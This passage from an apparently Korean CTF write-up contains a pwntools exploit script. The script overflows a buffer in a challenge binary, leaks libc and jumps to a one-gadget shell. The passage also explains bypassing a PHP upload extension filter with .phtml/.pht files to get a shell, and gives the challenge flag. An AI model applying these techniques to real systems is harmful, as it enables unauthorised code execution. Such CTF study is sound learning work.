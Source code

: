 > exploit.py

```python
from pwn import *

context.log_level = 'debug'
context.arch = 'amd64'
e = ELF('./ropasaurusrex2')
p = process('./ropasaurusrex2')
libc = e.libc

payload = 'A'*0x30
payload += 'realsung'
payload += '\x29'

p.send(payload)

libc_base = u64(p.recvuntil('\x7f')[-6:]+'\x00\x00') - (libc.symbols['__libc_start_main'] + 233)
log.info('libc_base : ' + hex(libc_base))

payload2 = 'A'*(0x30)
payload2 += 'realsung'
payload2 += p64(libc_base + 0x45216)

p.send(payload2)

p.interactive()
```

<br />

# Webhacking

### 5shared - 43 solver

```php
$extension = explode('.', $file['name'])[1];
if (!in_array($extension, Array("jpg", "gif", "png")))
{
$message = "<script>alert('jpg, gif, png 확장자만 업로드할 수 있습니다.'); history.back(); </script>";
    die($message);
}
```

이런식으로 explode를 사용하면 `test.jpg.html` 이런식으로 파일을 올릴 수도 있다. 그런데 php는 막아놨다. 

phtml이나 pht로 파일을 업로드할 수 있다.

플래그는 `http://ctf.dimigo.hs.kr:8961/flaglfalllgllflflagflalglgllfllflflfaglflag` 여기에 있다.

**FLAG : `DIMI{expl0d3_pht_g3t_sh3lL_:p}`**

### simple xss
